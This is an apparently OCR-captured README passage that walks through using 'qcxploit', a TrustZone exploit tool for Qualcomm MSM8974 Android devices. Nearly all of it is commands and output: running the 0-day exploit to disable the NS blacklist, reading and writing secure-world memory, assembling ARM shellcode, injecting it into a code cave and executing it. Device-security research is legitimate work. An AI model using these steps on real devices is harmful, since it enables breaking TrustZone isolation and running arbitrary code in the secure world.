    ```
        root@bacon:/ # /data/local/tmp/qcxploit svcreg32 03 06 03 0x22 0xFC48B080 0x0
        Sending SVC: 0x10, CMD: 0x2
        IOCTL RES: 0x0000001E

        root@bacon:/ # /data/local/tmp/qcxploit exploit8974
        MSM8974 TZ 0-day exploit by B.Kerler 2017
        ----------------------------------------------------------
        Disable NS Blacklist
        Zeroing out IMEM
        Refreshing NS Blacklist
        Done exploiting
   ```
   
   12.2. Reading / Writing
   - Reading dword
       ```
       root@bacon:/ # /data/local/tmp/qcxploit svcreg32 03 06 03 0x0 0x[addr_to_read] 0x[bufferaddr]
       ```

   - Writing dword   
       ```
       root@bacon:/ # /data/local/tmp/qcxploit svcreg32 03 06 03 0x22 0x[addr_to_write] 0x[value_to_write]
       ```

   - Reading after xpu disabled
       ```
       root@bacon:/ # /data/local/tmp/qcxploit readmem [addr_to_read] [length_to_read]
       ```

   - Writing after xpu disabled   
       ```
       root@bacon:/ # /data/local/tmp/qcxploit writemem [addr_to_write] [value_to_write_as_hexstring]
       ```
     
   12.2. Generating shellcode
   
   ```
        ~/qcpatchtools ~ Tools/asmtools.py -asm arm,thumb -in ShellCode/shellcode_examples/read_write_shellcode_arm.txt 
            CPU: arm, MODE: thumb
            70b5222802d00868106000e00a6070bd
   ```
        
   12.3. Injecting shellcode (0xfe809c8d is your code cave offset from 7.1.)
   
   ```
        root@bacon:/data/local/tmp # ./qcxploit writemem FE809C8D 70b5222802d00868106000e00a6070bd
   ```
    
   12.4. Running injected shellcode :
   
   ```
        root@bacon:/data/local/tmp # ./qcxploit svcreg32 06 03 03 0 0xFE808796 0xFE82830c
            Sending SVC: 0xc, CMD: 0xe
            IOCTL RES: 0x0000003E
        root@bacon:/data/local/tmp # ./qcxploit readmem 0xFE82830C 4
            Memory read:
           70B5042B
   ```
